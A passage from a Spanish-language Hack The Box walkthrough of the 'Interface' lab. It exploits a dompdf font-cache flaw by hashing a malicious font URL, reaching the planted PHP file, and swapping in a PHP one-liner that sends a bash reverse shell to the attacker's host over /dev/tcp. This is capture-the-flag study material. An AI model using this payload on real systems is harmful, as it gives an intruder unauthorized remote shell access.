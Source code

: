 ![](/assets/images/htb-interface/hashcode.png)



```
❯ echo -n "http://10.10.14.115:9001/exploit_font.php" | md5sum
2e5dfa90b70c16cb59ddd050de6a58dc 
```
El hash resultante lo agregamos a nuestra url para realizar la peticion

```
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_2e5dfa90b70c16cb59ddd050de6a58dc.php
```

A continuacion podremos ver que si funciona el script .php por ende procedera a configurar el script para que me devuelva una reverse shell 


![](/assets/images/htb-interface/picture_phpinfo.png)


configurando el archivo donde esta el script quedaria algo asi 

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.115/4444 0>&1'"); ?>
```

Repetimos los mismos pasos, montamos nuestro servidor python, con *curl* subimos el archivo y lo buscamos en la url, agregando que esta vez deberiamos estar en escucha esperando nuestra reverseshell

